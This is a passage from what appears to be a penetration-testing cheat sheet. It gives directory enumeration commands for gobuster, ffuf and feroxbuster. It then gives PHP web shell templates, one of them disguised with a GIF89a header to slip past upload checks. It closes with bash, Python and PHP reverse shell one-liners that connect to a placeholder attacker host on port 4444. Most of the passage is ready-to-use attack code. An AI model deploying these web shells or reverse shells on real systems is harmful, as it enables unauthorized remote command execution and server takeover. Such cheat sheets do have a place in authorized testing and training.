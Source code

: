 #### Directory Enumeration Tools
```bash
# Gobuster
gobuster dir -u http://target_ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js,zip,bak,old

# FFuf
ffuf -u http://target_ip/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt

# Feroxbuster (recursive enumeration)
feroxbuster -u http://target_ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 3 -t 50
```

### Web Shell Templates

#### PHP Web Shells
```php
# Simple command shell
<?php system($_GET['cmd']); ?>

# More advanced shell
<?php
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>

# Upload-friendly shell
GIF89a;
<?php system($_GET['cmd']); ?>
```

#### Reverse Shell Payloads
```bash
# Bash reverse shell
bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP reverse shell
php -r '$sock=fsockopen("attacker_ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## Common Mistakes and How to Avoid Them {#mistakes}
